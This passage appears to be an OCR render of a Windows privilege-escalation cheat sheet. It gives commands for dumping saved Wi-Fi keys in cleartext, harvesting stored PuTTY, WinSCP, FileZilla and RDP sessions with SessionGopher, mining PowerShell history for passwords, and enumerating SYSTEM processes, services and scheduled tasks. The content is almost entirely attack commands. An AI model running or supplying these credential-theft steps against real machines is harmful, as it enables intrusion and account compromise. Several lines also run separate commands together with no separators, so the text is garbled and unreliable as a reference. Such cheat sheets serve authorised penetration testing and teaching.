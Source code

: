     netsh wlan show profile

Get Cleartext Pass

    netsh wlan show profile <SSID> key=clear

Oneliner method to extract wifi passwords from all the access point.

    cls & echo. & for /f "tokens=4 delims=: " %a in ('netsh wlan show profiles ^| find "Profile "') do @echo off > nul & (netsh wlan show profiles name=%a key=clear | findstr "SSID Cipher Content" | find /v "Number" & echo.) & @echo on

### Passwords stored in services

Saved session information for PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP using [SessionGopher](https://github.com/Arvanaghi/SessionGopher)

    https://raw.githubusercontent.com/Arvanaghi/SessionGopher/master/SessionGopher.ps1Import-Module path\to\SessionGopher.ps1;Invoke-SessionGopher -AllDomain -oInvoke-SessionGopher -AllDomain -u domain.com\adm-arvanaghi -p s3cr3tP@ss

### Powershell history

    type C:\Users\swissky\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txttype $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txtcat (Get-PSReadlineOption).HistorySavePathcat (Get-PSReadlineOption).HistorySavePath | sls passw

## EoP - Processes Enumeration and Tasks

What processes are running?

    tasklist /vnet startsc queryGet-ServiceGet-WmiObject -Query "Select * from Win32_Process" | where {$_.Name -notlike "svchost*"} | Select Name, Handle, @{Label="Owner";Expression={$_.GetOwner().User}} | ft -AutoSize

Which processes are running as “system”

    tasklist /v /fi "username eq system"

Do you have powershell magic?

    REG QUERY "HKLM\SOFTWARE\Microsoft\PowerShell\1\PowerShellEngine" /v PowerShellVersion

List installed programs

    Get-ChildItem 'C:\Program Files', 'C:\Program Files (x86)' | ft Parent,Name,LastWriteTimeGet-ChildItem -path Registry::HKEY_LOCAL_MACHINE\SOFTWARE | ft Name

List services

    net startwmic service list brieftasklist /SVC

Scheduled tasks

    schtasks /query /fo LIST 2>nul | findstr TaskNameschtasks /query /fo LIST /v > schtasks.txt; cat schtask.txt | grep "SYSTEM\|Task To Run" | grep -B 1 SYSTEMGet-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State

Startup tasks
